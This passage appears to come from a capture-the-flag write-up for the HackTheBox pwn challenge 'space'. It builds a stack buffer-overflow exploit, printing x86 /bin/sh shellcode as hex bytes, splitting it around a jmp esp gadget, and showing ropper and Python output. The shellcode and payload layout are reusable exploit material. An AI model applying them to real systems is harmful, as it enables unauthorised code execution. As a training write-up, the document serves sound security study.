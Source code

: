 we get our shellcode.lets use this shellcode on our exploit.

### Exploit

we need to split our shellcode into two halves.
that is from  last part  18bits or less going to be our first halves and remaing will be our first part.

`whole shellcode`

```shell
\x31\xd2\x31\xc0\x83\xec\x16\xff\xe4      \x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

`last part of  shellcode going to be first part for the exploit.which is a length of 17 bits`

```shell
\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80

┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $python3
Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> len("\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")
17
>>> 

```

`first part of the shellcode going to last part on our exploit`

```shell
\x31\xd2\x31\xc0\x83\xec\x16\xff\xe4
```

so our exploit will look 

```shell
paylaod = 'a' + last_part + jmp_esp + first_part
```

so here's the idea  `'a' + last_part = 18bits(require to reach eip ) + jmp_esp (return function which will return to first_part) + first_part(which will return to last_part)`

so before writing our final exploit we will need jmp_esp address from the binary ,lets heck the address with ropper.

```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $ropper
(ropper)> file space
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
(space/ELF/x86)> search /1/  jmp esp
[INFO] Searching for gadgets: jmp esp

[INFO] File: space
0x0804919f: jmp esp; 
```
